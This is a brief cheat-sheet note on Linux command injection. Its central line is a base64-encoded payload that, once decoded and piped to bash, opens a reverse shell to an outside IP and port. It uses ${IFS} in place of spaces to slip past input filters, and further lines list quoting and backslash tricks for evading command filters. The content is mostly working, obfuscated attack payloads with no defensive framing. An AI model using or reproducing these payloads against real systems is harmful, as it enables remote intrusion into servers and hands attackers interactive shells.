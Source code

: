 # linux命令执行/注入

`echo${IFS}YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzQ0NDQgMD4mMSI=|base64${IFS}-d|bash `

The IFS variable is used instead of spaces, in order to avoid the server from splitting the command.

ls ==  \l\s

ls == l''s               double single quote  not double quote

sometimes whitespace don't need encode
